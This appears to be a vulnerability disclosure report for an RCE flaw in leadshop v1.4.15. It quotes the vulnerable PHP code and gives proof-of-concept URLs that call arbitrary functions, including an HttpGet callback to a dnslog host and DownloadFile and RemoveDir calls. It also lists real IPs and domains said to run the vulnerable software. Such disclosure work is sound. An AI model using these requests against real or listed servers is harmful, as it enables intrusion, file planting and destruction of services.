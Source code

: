 There is an RCE vulnerability in qmpaas/leadshop(https://github.com/qmpaas/leadshop )
-
Description
-
There is an RCE vulnerability in qmpaas/leadshop (https://github.com/qmpaas/leadshop) (v1.4.15). An attacker can access the file leadshop.php and call any existing function through GET to control the target host.  
The vulnerability is in the leadshop/web/leadshop.php[27-61] file  

```

 public function run()
    {
        //读取参数数据
        $include = isset($_GET['include']) ? $_GET['include'] : "";
        $data    = isset($_GET['data']) ? $_GET['data'] : "";
        $meta    = isset($_GET['meta']) ? $_GET['meta'] : "";
        //执行数据方法
        if ($include) {
            return call_user_func_array([$this, $include], [$meta, $data]);
        } else {
            //用于判断是否非法操作
            $token = isset($_GET['token']) ? $_GET['token'] : "";
            $html  = get_oss_url('index.html');
            //判断锁文件是否存在，存在则是要执行更新
            if (@file_exists(dirname(__DIR__) . "/install.lock")) {
                if (@file_get_contents(dirname(__DIR__) . "/install.lock") === $token) {
                    if (!isset($_SESSION['self_update'])) {
                        //执行更新自身
                        $this->SilentSelfUpdate();
                    }
                    //执行更新操作
                    $version = get_version();
                    $body    = $this->DownloadFile($html);
                    echo str_replace('{$version}', $version, $body);
                } else {
                    die("检测到非法Token，请登录后台进入更新界面");
                }
            } else {
                $version = get_version();
                $body    = $this->DownloadFile($html);
                echo str_replace('{$version}', $version, $body);
            }
        }

    }
```

The call_user_func_array function is used directly, and $include, $data, and $meta receive get parameters, which allows us to run all functions in this file (parameters less than or equal to 2), such as:  
HttpGet (http access: poc: ```https://demo.leadshop.vip/leadshop.php?include=HttpGet&meta=6nup69.dnslog.cn```),  
ToMkdir (create folder: poc: ```https://demo.leadshop.vip/leadshop.php?include=ToMkdir&meta=1```),  
UpdateSql (perform database update: poc: ```https://demo.leadshop.vip/leadshop.php?include=UpdateSql```),  
DownloadFile (download file: poc: ```https://demo.leadshop.vip/leadshop.php?include=DownloadFile&meta=www.baidu.com/img/flexible/logo/pc/peak-result.png```),  
RemoveDir (remove directory: poc: ```https://demo.leadshop.vip/leadshop.php?include=RemoveDir&meta=[path]```)

-
Proof of Concept:
-
Poc：
(This url is applied from DNSLog(http://dnslog.cn/) in advance. Click "Get SubDomain", access the poc, and click "Refresh Record" to Refresh.)  
```
https://demo.leadshop.vip/leadshop.php?include=HttpGet&meta=6nup69.dnslog.cn  
```
DNSLog picture:
![img](DNSLog.png)

-
Impact
-
Attackers can call any existing functions at will, control the target server to access, download, create files, delete files, etc.
Access may make the server a dos server.
Download, so that an attacker can download the PHP Trojan to the server.
Creating and deleting will destroy normal services.
More than ten IPs are using this service(Fofa Search:"Powered By Leadshop © 2021").
```
https://8.141.175.3
http://www.huatianlinye.com
https://39.107.102.163
https://42.193.253.224
https://store.mianhuain.com
http://shop.yongzhitang.com
https://101.201.209.92
http://119.3.229.175:7788
https://101.200.231.65
https://zhangtong.store.mianhuain.com
```

-
Occurrences
-
https://github.com/qmpaas/leadshop/blob/42de4233357671b96b18f8c8b2f1d7a74a809755/web/leadshop.php#L27
https://github.com/qmpaas/leadshop/blob/42de4233357671b96b18f8c8b2f1d7a74a809755/web/leadshop.php#L35
https://github.com/qmpaas/leadshop/blob/42de4233357671b96b18f8c8b2f1d7a74a809755/web/leadshop.php#L103
https://github.com/qmpaas/leadshop/blob/42de4233357671b96b18f8c8b2f1d7a74a809755/web/leadshop.php#L304
https://github.com/qmpaas/leadshop/blob/42de4233357671b96b18f8c8b2f1d7a74a809755/web/leadshop.php#L328
https://github.com/qmpaas/leadshop/blob/42de4233357671b96b18f8c8b2f1d7a74a809755/web/leadshop.php#L349
https://github.com/qmpaas/leadshop/blob/42de4233357671b96b18f8c8b2f1d7a74a809755/web/leadshop.php#L395
https://github.com/qmpaas/leadshop/blob/42de4233357671b96b18f8c8b2f1d7a74a809755/web/leadshop.php#L444
https://github.com/qmpaas/leadshop/blob/42de4233357671b96b18f8c8b2f1d7a74a809755/web/leadshop.php#L477
https://github.com/qmpaas/leadshop/blob/42de4233357671b96b18f8c8b2f1d7a74a809755/web/leadshop.php#L495
https://github.com/qmpaas/leadshop/blob/42de4233357671b96b18f8c8b2f1d7a74a809755/web/leadshop.php#L509